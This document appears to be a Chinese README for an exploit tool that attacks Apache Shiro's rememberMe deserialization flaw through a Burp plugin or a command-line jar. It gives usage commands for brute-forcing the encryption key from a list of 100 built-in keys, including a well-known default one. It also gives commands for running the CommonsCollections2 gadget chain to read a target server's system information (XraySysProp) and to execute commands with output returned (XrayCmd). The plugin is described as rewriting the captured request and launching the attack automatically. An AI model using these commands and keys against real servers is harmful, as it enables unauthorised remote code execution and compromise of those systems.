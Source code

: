 mvn package 编译

## 欢迎关注 宽字节安全 公众号
## changelog
1. 新增shiro 检测方式(对，就是那个不需要gadget的检测方式) 2020.7.30
2. 新增shiro 100 key
3. 支持自定义key
4. 支持作为插件导入burp

## burp插件使用方法
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801160819.png)

repeater界面中右键，生成payload
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801160932.png)
默认kph密钥，cc2利用链，获取信息，如果需要修改，请右键选择config
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801161039.png)

生成后，会自动替换request内容，并攻击

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801161129.png)


当然，这个jar包也可以直接在命令行下运行，生成rememberMe，或者检测，一切不变

自定义key检测
```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/samples_web_war/ kPH+bIxk5D2deZiIxcaaaA==
```

内置100key检测

```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/sam
ples_web_war/
```

```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar kPH+bIxk5D2deZiIxcaaaA== CommonsCollections2 XraySysProp
```

## 检测方式
运行
```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc 
```
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200730200713.png)


检测

```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/sam
ples_web_war/
```
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200730200536.png)


## shiro-urldns 检测&利用工具
支持shiro 16个key，支持攻击利用。支持的key与gadget以及攻击类型如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726115923.png)


## 查看目标服务器的系统信息
该攻击类型为`XraySysProp`，使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XraySysProp
```

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121111.png)

利用截图如下

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121840.png)

## 执行命令并回显
该攻击类型为`XrayCmd` 使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XrayCmd
```
利用截图如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726122210.png)

## 注意事项
1. 建议删除不相关的http请求头，不然会因为http请求头过大而提示400错误
2.  建议使用CommonsCollections2 gadget，体积小，利用率高
